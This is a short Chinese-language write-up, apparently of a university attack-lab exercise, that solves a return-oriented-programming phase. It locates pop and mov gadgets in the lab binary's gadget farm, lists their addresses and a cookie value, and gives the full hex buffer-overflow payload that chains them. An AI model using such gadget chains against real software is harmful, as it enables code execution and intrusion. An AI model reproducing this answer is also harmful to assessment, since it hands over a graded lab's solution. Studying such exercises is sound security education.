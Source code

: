 那么我们还是重复之前的操作，把 cookie 放入 %rdi 

~~~assembly
# 所有 gadget 最后一个指令都必须为 ret，方便跳转到下一个 gadget
popq %rax # 从栈内存中取出 cookie 并不一定要是 %rax 寄存器
ret

movq %rax, %rdi # 将 cookie mov 到 %rdi 里面
ret
~~~

需要执行这些操作，我们看看有哪些 gadget 可以使用。当然 gadget 中不直接存在这些指令，但是我们可以找字节序列。先贴出 mov 和 pop 的字节编码表。nop 对应 byte 为 90。

![img](https://pic4.zhimg.com/80/v2-25b4d2d5a66ea71c93d87c5ed336dddb_1440w.webp)

根据表到 farm 里面一个个对 

可以在 `getval_280` 中找到 pop 的 gadget `58 90 c3`。即

~~~assembly
popq %rax
nop
ret
~~~

其起始地址为 `0x4019ca + 2 = 0x4019cc`

可以在 `addval_273` 中找到 mov 的 gadget `48 89 c7 c3`。即

~~~assembly
movq %rax, %rdi
ret
~~~

其起始地址为 `0x4019a0 + 2 = 0x4019a2`

cookie 为 `0x59b997fa`

![image-20230502140052054](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230502140052054.png)

然后还是老样子，覆盖掉返回地址，不过在那之上还要有其他gadget的返回地址

> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> cc 19 40 00 00 00 00 00
>
> fa 97 b9 59 00 00 00 00
>
> a2 19 40 00 00 00 00 00
>
> ec 17 40 00 00 00 00 00
